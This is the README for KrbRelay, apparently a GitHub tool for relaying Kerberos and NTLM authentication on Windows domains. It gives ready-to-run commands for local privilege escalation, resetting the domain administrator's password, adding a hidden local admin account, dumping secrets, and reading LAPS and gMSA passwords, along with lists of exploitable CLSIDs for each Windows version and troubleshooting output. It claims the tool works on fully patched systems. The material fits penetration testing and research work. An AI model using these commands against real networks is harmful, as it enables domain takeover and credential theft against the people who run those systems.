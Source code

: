 # KrbRelay

Relaying 3-headed dogs.
More details at https://googleprojectzero.blogspot.com/2021/10/windows-exploitation-tricks-relaying.html and https://googleprojectzero.blogspot.com/2021/10/using-kerberos-for-authentication-relay.html

This should be working on most fully patched Windows systems. There may be difficulties with Server OS in lab environments because of the firewall blocking the OXID resolver however, this will most likely not be an issue during real life engagements, same goes for CLSIDs.

![image-20220213094644590](Images/image-20220213094644590.png)

### Supported Protocols and Features

Some protocols are more completed than others, PR's are welcomed. 

* LLMNR

* LDAP/LDAPS
* HTTP
  * EWS
* SMBv2
* RPC over SMB
  * MS-SAMR
  * MS-SCMR
  * MS-RPRN
  * MS-RRP
  * MS-LSAT/MS-LSAD

### Examples

````
# LPE
.\KrbRelay.exe -spn ldap/dc01.htb.local -clsid 90f18417-f0f1-484e-9d3c-59dceee5dbd8 -rbcd S-1-5-21-2982218752-1219710089-3973213059-1606
.\KrbRelay.exe -spn ldap/dc01.htb.local -clsid 90f18417-f0f1-484e-9d3c-59dceee5dbd8 -shadowcred

# Cross-Session LDAP
.\KrbRelay.exe -spn ldap/dc01.htb.local -session 2 -clsid 354ff91b-5e49-4bdc-a8e6-1cb6c6877182 -shadowcred
.\KrbRelay.exe -spn ldap/dc01.htb.local -session 2 -clsid 354ff91b-5e49-4bdc-a8e6-1cb6c6877182 -shadowcred win2016$
.\KrbRelay.exe -spn ldap/dc01.htb.local -session 2 -clsid 354ff91b-5e49-4bdc-a8e6-1cb6c6877182 -rbcd S-1-5-21-2982218752-1219710089-3973213059-1606 win2016$
.\KrbRelay.exe -spn ldap/dc01.htb.local -session 2 -clsid 354ff91b-5e49-4bdc-a8e6-1cb6c6877182 -add-groupmember srv_admins domain_user
.\KrbRelay.exe -spn ldap/dc01.htb.local -session 2 -clsid 354ff91b-5e49-4bdc-a8e6-1cb6c6877182 -laps
.\KrbRelay.exe -spn ldap/dc02.htb.local -session 2 -clsid 354ff91b-5e49-4bdc-a8e6-1cb6c6877182 -ssl -gmsa
.\KrbRelay.exe -spn ldap/dc02.htb.local -session 2 -clsid 354ff91b-5e49-4bdc-a8e6-1cb6c6877182 -ssl -reset-password administrator Password123!

# Cross-Session HTTP
.\KrbRelay.exe -spn http/exchange.htb.local -endpoint EWS/Exchange.asmx -ssl -session 2 -clsid 354ff91b-5e49-4bdc-a8e6-1cb6c6877182 -ews-search beta,test
.\KrbRelay.exe -spn http/exchange.htb.local -endpoint EWS/Exchange.asmx -ssl -session 2 -clsid 354ff91b-5e49-4bdc-a8e6-1cb6c6877182 -ews-delegate domain_user@htb.local
.\KrbRelay.exe -spn http/win2016.htb.local -endpoint iisstart.htm -proxy -session 2 -clsid 354ff91b-5e49-4bdc-a8e6-1cb6c6877182

# Cross-Session SMB
.\KrbRelay.exe -spn cifs/win2016.htb.local -session 2 -clsid 354ff91b-5e49-4bdc-a8e6-1cb6c6877182 -console
.\KrbRelay.exe -spn cifs/win2016.htb.local -session 2 -clsid 354ff91b-5e49-4bdc-a8e6-1cb6c6877182 -add-privileges (([System.Security.Principal.WindowsIdentity]::GetCurrent()).User.Value)
.\KrbRelay.exe -spn cifs/win2016.htb.local -session 2 -clsid 354ff91b-5e49-4bdc-a8e6-1cb6c6877182 -secrets 
.\KrbRelay.exe -spn cifs/win2016.htb.local -session 2 -clsid 354ff91b-5e49-4bdc-a8e6-1cb6c6877182 -service-add addUser "C:\windows\system32\cmd.exe /c """"C:\windows\system32\net user cube Password123! /add && C:\windows\system32\net localgroup administrators cube /add"""""

# LLMNR
.\KrbRelay.exe -llmnr -spn 'cifs/win2019.htb.local' -secrets

# NTLM (see https://github.com/antonioCoco/RemotePotato0 for CLSIDs)
.\KrbRelay.exe -session 1 -clsid 0ea79562-d4f6-47ba-b7f2-1e9b06ba16a4 -ntlm
.\KrbRelay.exe -session 1 -clsid 0ea79562-d4f6-47ba-b7f2-1e9b06ba16a4 -ntlm -downgrade
````

 `CheckPort.exe` is a C# tool that can be used to discover available ports for the OXID resolver.

```
C:\Users\domain_user\Desktop\KrbRelay\CheckPort\bin\Release\CheckPort.exe
[*] Looking for available ports..
[*] Port: 1024 is available
```



## CLSIDs

We'll need to unmarshal our OBJREF inside of a process that would allow authentications over the network, this can be verified by looking at the `Impersonation Level` 

* RPC_C_IMP_LEVEL_DEFAULT			 # Will not work
* RPC_C_IMP_LEVEL_ANONYMOUS    # Will not work
* RPC_C_IMP_LEVEL_IDENTIFY             # Works for LDAP
* RPC_C_IMP_LEVEL_IMPERSONATE   # Required for SMB
* RPC_C_IMP_LEVEL_DELEGATE

When relaying to LDAP or any other service that has signing enabled but not enforced we would also need to verify that the `Authentication Level` of the process is set to `RPC_C_AUTHN_LEVEL_CONNECT`.

Processes running under `NT Authority\Network service` will use the SYSTEM account when authenticating over the network.

Tool for discovering CLSIDs: https://github.com/tyranid/oleviewdotnet

```powershell
Import-Module .\OleViewDotNet.psd1
Get-ComDatabase -SetCurrent
$comdb = Get-CurrentComDatabase
$clsids = (Get-ComClass).clsid
Get-ComProcess -DbgHelpPath 'C:\Program Files (x86)\Windows Kits\10\Debuggers\x64\dbghelp.dll' | select ProcessId,ExecutablePath,Name,AppId,User,AuthnLevel,ImpLevel
```



#### Windows 10 1903

```
# SYSTEM Relay
0bae55fc-479f-45c2-972e-e951be72c0c1 # RPC_C_IMP_LEVEL_IDENTIFY
90f18417-f0f1-484e-9d3c-59dceee5dbd8 # RPC_C_IMP_LEVEL_IMPERSONATE 

# Cross-Session Relay
0289a7c5-91bf-4547-81ae-fec91a89dec5 # RPC_C_IMP_LEVEL_IMPERSONATE 
1f87137d-0e7c-44d5-8c73-4effb68962f2 # RPC_C_IMP_LEVEL_IMPERSONATE 
73e709ea-5d93-4b2e-bbb0-99b7938da9e4 # RPC_C_IMP_LEVEL_IMPERSONATE 
9678f47f-2435-475c-b24a-4606f8161c16 # RPC_C_IMP_LEVEL_IMPERSONATE 
9acf41ed-d457-4cc1-941b-ab02c26e4686 # RPC_C_IMP_LEVEL_IMPERSONATE 
ce0e0be8-cf56-4577-9577-34cc96ac087c # RPC_C_IMP_LEVEL_IMPERSONATE 
```

#### Server 2019
```
# SYSTEM Relay
90f18417-f0f1-484e-9d3c-59dceee5dbd8 # RPC_C_IMP_LEVEL_IMPERSONATE

# Cross-Session Relay
354ff91b-5e49-4bdc-a8e6-1cb6c6877182 # RPC_C_IMP_LEVEL_IMPERSONATE 
38e441fb-3d16-422f-8750-b2dacec5cefc # RPC_C_IMP_LEVEL_IMPERSONATE 
f8842f8e-dafe-4b37-9d38-4e0714a61149 # RPC_C_IMP_LEVEL_IMPERSONATE 
```

#### Server 2016
```
# SYSTEM Relay
90f18417-f0f1-484e-9d3c-59dceee5dbd8 # RPC_C_IMP_LEVEL_IMPERSONATE

# Cross-Session Relay
0289a7c5-91bf-4547-81ae-fec91a89dec5 # RPC_C_IMP_LEVEL_IMPERSONATE
1f87137d-0e7c-44d5-8c73-4effb68962f2 # RPC_C_IMP_LEVEL_IMPERSONATE
5f7f3f7b-1177-4d4b-b1db-bc6f671b8f25 # RPC_C_IMP_LEVEL_IMPERSONATE
73e709ea-5d93-4b2e-bbb0-99b7938da9e4 # RPC_C_IMP_LEVEL_IMPERSONATE
9678f47f-2435-475c-b24a-4606f8161c16 # RPC_C_IMP_LEVEL_IMPERSONATE
98068995-54d2-4136-9bc9-6dbcb0a4683f # RPC_C_IMP_LEVEL_IMPERSONATE
9acf41ed-d457-4cc1-941b-ab02c26e4686 # RPC_C_IMP_LEVEL_IMPERSONATE
bdb57ff2-79b9-4205-9447-f5fe85f37312 # RPC_C_IMP_LEVEL_IMPERSONATE
ce0e0be8-cf56-4577-9577-34cc96ac087c # RPC_C_IMP_LEVEL_IMPERSONATE
```



## Error codes

Doesn't work the first time? try again then check these error codes, and if you are going to open an Issue, please paste the full output.

#### Firewall blocking the OXID resolver

```
System.Runtime.InteropServices.COMException (0x800706BA): The RPC server is unavailable. (Exception from HRESULT: 0x800706BA)
```
#### Bad CLSID

```
System.Runtime.InteropServices.COMException (0x80080004): Bad path to object (Exception from HRESULT: 0x80080004 (CO_E_BAD_PATH))
```
#### Kerberos Issues (Authentication type not recognized), Will work after reboot/clock sync

```
System.Runtime.InteropServices.COMException (0x800706D3): The authentication service is unknown.
```

#### Parsing Error, valid apRep tickets starts with 0x6f

```
[*] apRep1: fe534d4240000100160000c00100010001000000000000000100000000000000000000000000000035000000006c0000000000000000000000000000000000000900000048006000605e06092a864886f71201020203007e4f304da003020105a10302011ea411180f32303232303230373134303935325aa5050203045ad0a603020121a90b1b094854422e4c4f43414caa153013a003020101a10c300a1b0877696e3230313624
[*] AcceptSecurityContext: SEC_I_CONTINUE_NEEDED
[*] fContextReq: Delegate, MutualAuth, UseDceStyle, Connection
System.UnauthorizedAccessException: Access is denied.

Access is denied.
```

#### A valid apReq starts with 0x60, check your environment and parameters

```
[*] apReq: 05000b0710000000db003300020<SNIP>
```

#### CLSID impersonation level or authentication level too low

```
[*] fContextReq: Delegate, MutualAuth, UseDceStyle, Connection
System.UnauthorizedAccessException: Access is denied.

Access is denied.
```



### Acknowledgements

* [Vletoux ](https://twitter.com/mysmartlogon) for starting [RPCForSMBLibrary](https://github.com/vletoux/RPCForSMBLibrary)
* [James Forshaw](https://twitter.com/tiraniddo) for introducing Kerberos relaying and [NtApiDotNet](https://github.com/googleprojectzero/sandbox-attacksurface-analysis-tools/tree/main/NtApiDotNet)
* [TalAloni](https://github.com/TalAloni/) for [SMBLibrary](https://github.com/TalAloni/SMBLibrary)
* [MichaelGrafnetter](https://twitter.com/mgrafnetter) for [DSInternals](https://github.com/MichaelGrafnetter/DSInternals)
* [Kevin Robertson](https://twitter.com/kevin_robertson) for [Inveigh](https://github.com/Kevin-Robertson/Inveigh)
* [decoder_it](https://twitter.com/decoder_it) and [splinter_code](https://twitter.com/splinter_code) for [RemotePotato0](https://github.com/antonioCoco/RemotePotato0)
